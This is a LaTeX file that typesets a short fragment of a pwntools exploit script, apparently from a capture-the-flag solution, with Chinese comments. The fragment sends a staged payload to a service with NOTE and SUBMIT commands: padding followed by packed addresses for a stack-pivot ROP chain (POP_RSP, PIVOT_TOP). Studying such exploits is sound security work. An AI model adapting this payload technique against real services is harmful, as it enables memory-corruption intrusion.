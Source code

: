 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\AlertTok}[1]{\textcolor[rgb]{0.94,0.16,0.16}{#1}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{io.send(}\StringTok{b\textquotesingle{}NOTE 0 \textquotesingle{}} \OperatorTok{+}\NormalTok{ p64(SUBMIT\_READ)[:}\DecValTok{3}\NormalTok{] }\OperatorTok{+} \StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}n}\StringTok{\textquotesingle{}}\NormalTok{)      }\CommentTok{\# 階段 0}
\NormalTok{io.recvuntil(}\StringTok{b\textquotesingle{}sh\textgreater{} \textquotesingle{}}\NormalTok{)                                   }\CommentTok{\# (2) 等 }\AlertTok{NOTE}\CommentTok{ 完成}

\NormalTok{stage  }\OperatorTok{=} \StringTok{b\textquotesingle{}A\textquotesingle{}} \OperatorTok{*} \DecValTok{64} \OperatorTok{+}\NormalTok{ p64(}\BaseNTok{0xff}\NormalTok{) }\OperatorTok{+}\NormalTok{ p64(POP\_RSP) }\OperatorTok{+}\NormalTok{ p64(PIVOT\_TOP) }\OperatorTok{+}\NormalTok{ p64(}\DecValTok{0}\NormalTok{) }\OperatorTok{*} \DecValTok{3}
\ControlFlowTok{assert} \BuiltInTok{len}\NormalTok{(stage) }\OperatorTok{==} \DecValTok{112}
\NormalTok{io.send(}\StringTok{b\textquotesingle{}SUBMIT \%d}\CharTok{\textbackslash{}n}\StringTok{\textquotesingle{}} \OperatorTok{\%} \BuiltInTok{len}\NormalTok{(stage) }\OperatorTok{+}\NormalTok{ stage)            }\CommentTok{\# 階段 1}
\NormalTok{io.recvuntil(}\StringTok{b\textquotesingle{}OK}\CharTok{\textbackslash{}n}\StringTok{\textquotesingle{}}\NormalTok{)                                   }\CommentTok{\# (3) SUBMIT 自己的 OK\textbackslash{}n}


\end{Highlighting}
\end{Shaded}
\end{document}
